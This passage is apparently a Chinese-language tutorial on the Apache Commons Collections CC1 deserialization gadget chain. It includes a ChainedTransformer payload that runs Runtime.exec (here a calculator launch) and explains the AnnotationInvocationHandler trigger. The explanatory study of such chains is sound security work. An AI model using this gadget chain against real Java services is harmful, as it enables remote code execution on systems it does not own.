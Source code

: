     public Object transform(Object input) {
        if (input == null) {
            return null;
        }
        try {
            Class cls = input.getClass(); //重点代码
            Method method = cls.getMethod(iMethodName, iParamTypes);
            return method.invoke(input, iArgs);

        } catch (NoSuchMethodException ex) {
            throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" + input.getClass() + "' does not exist");
        } catch (IllegalAccessException ex) {
            throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" + input.getClass() + "' cannot be accessed");
        } catch (InvocationTargetException ex) {
            throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" + input.getClass() + "' threw an exception", ex);
        }
    }

}
```
###### transformers方法生成
```
Transformer[] transformers = new Transformer[] {
    new ConstantTransformer(Runtime.class),
    new InvokerTransformer("getMethod",
            new Class[] {String.class, Class[].class }, new Object[] {
            "getRuntime", new Class[0] }),
    new InvokerTransformer("invoke",
            new Class[] {Object.class, Object[].class }, new Object[] {
            null, new Object[0] }),
    new InvokerTransformer("exec",
            new Class[] {String.class }, new Object[] {"open /Applications/Calculator.app"})};

//首先构造一个Map和一个能够执行代码的ChainedTransformer，以此生成一个TransformedMap
Transformer transformedChain = new ChainedTransformer(transformers);
//以上代码实现的就是 Runtime.getRuntime,exec("open /Applications/Calculator.app")
```

**反射调用getRuntime函数，再调用getRuntime的exec()函数，执行命令。依次调用关系为： Runtime --> getRuntime --> exec();因此，我们要提前构造 ChainedTransformer链，它会按照我们设定的顺序依次调用Runtime, getRuntime,exec函数，进而执行命令。正式开始时，我们先构造一个TransformeMap实例，然后想办法修改它其中的数据，使其自动调用tansform()方法进行特定的变换(即我们之前设定好的)**


### **生成TransformedMap,参数是map和ChainedTransformer,对TransformedMap进行修改操作就能自动触发ChainedTransformer函数中的命令执行**

### 执行如下代码会弹出计算器
![](/java/commons-collection/cc1.jpg)


## 如何在反序列化(readObject())的时候触发修改TransformedMap?
### **回顾上一步的代码:需要在readObject时造成代码的执行,需要满足如下2个条件,1 是重写readObject方法,2.方法对map的键值操作进行修改**

### sun.reflect.annotation.AnnotationInvocationHandler类
![](/java/commons-collection/cc1_AnnotationInvocationHandler.jpg)


## 思路总结
#### 调用链
![](/java/commons-collection/cc1总结.jpg)

> 只需要构造AnnotationInvocationHandler的实例并且序列化 -> c1
```